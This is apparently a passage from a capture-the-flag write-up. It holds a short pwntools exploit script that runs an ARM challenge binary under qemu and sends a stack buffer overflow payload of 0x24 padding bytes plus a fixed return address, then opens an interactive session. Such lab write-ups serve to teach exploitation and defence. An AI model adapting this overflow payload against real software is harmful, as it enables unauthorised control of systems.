 [![](assets/1703209924-fb81c94a61bd408e885a70eafbb6e9d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221164418-20ca994a-9fdd-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

context(arch='arm', os='linux')
context.log_level = 'debug'

p = process(["qemu-arm","-L","/usr/arm-linux-gnueabi","./pwn"])
#p = process(["qemu-arm","-L","/usr/arm-linux-gnueabi","-g", "1234","./pwn"])

pl = "a" * 0x24 + p32(0x000105EC)
sa('>', pl)
itr()
```
